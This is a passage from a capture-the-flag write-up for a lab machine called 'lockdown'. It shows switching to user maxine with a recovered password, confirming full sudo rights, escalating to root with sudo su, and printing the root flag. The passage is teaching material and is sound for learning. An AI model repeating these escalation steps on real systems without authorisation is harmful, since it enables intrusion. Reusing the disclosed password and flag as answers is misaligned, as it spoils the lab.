 maxine's password: `tiarna`

Now that we have the password for user `maxine`, we can switch to this user:

~~~
cyrus@lockdown:~$ su maxine
Password:
maxine@lockdown:/home/cyrus$ id
uid=1000(maxine) gid=1000(maxine) groups=1000(maxine),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
maxine@lockdown:~$ sudo -l
[sudo] password for maxine: 
Matching Defaults entries for maxine on lockdown:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maxine may run the following commands on lockdown:
    (ALL : ALL) ALL
~~~

As you can see, we can run all the commands as `root` with sudo and no password, so I simply ran `sudo su` and switched to root:

~~~
maxine@lockdown:~$ sudo su
root@lockdown:/home/maxine# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@lockdown:/home/maxine# cd
root@lockdown:~# ls
root.txt
root@lockdown:~# cat root.txt 
THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}
~~~

Root flag: `THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )